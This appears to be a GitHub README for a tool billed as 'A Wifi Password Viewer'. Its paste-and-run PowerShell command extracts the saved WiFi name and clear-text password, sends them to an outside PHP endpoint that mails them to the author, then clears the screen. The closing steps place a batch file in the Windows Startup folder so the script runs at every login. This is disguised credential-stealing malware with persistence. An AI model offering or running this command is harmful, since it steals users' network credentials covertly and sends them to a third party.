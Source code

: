 <h2 align="center">Hi 👋, I'm PROTAN HALDER</h2>
<h3 align="center">A Wifi Password Viewer.</h3>


#### Directly Run this command in The PowerShell.
```
$SSID = (netsh wlan show profile|find "All User Profile").Split(":")[1].SubString(1); $PWD  = (netsh wlan show profile name="$SSID"  key=clear | find "Key Content").Split(":")[1].SubString(1); $Data = "SSID :$SSID`nPASS :$PWD ";Invoke-WebRequest -Uri "https://email-pranks.000webhostapp.com/gmail.php?from=hasanhawladar2021@codewithharry.com&to=protanhalder2022@gmail.com&subject=Wifi Information of $Data&message=$Data";clear;echo $Data
```

###you should pase the "WiFucker.bat" file into the StartUp folder [ (window+R) shell:startup]

then paste the "WiFucker.ps1" file into another folder exept StartUp folder.

then copy the path of "WiFucker.ps1" file and replace the path from "WiFucker.bat" file . 
